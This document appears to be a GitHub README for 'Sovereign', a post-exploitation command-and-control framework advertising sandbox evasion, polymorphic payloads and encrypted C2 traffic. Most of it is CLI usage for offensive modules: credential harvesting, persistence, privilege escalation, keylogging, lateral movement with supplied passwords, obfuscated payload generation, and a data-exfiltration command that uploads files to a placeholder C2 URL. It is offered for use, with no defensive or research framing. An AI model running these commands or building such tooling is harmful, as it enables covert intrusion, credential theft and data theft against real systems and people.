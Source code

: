 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate_payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest_credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish_persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate_privileges
```

#### Gather system information:
```bash
python cli/cli.py gather_system_info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

#### Start keylogger:
```bash
python cli/cli.py start_keylogger --log_file_path /path/to/log_file
```

#### Move laterally:
```bash
python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list-agents
    ```

2. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

3. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate_payload --platform windows
    ```

4. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest_credentials
    ```

5. **Establishing persistence**:
    ```bash
    python cli/cli.py establish_persistence
    ```

6. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate_privileges
    ```

7. **Gathering system information**:
    ```bash
    python cli/cli.py gather_system_info
    ```

8. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

9. **Starting a keylogger**:
    ```bash
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file
    ```

10. **Moving laterally**:
    ```bash
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
```bash
python c2_server/c2_server.py generate_report
```
This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `c2_server/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.

# By the way, we pwn things.....
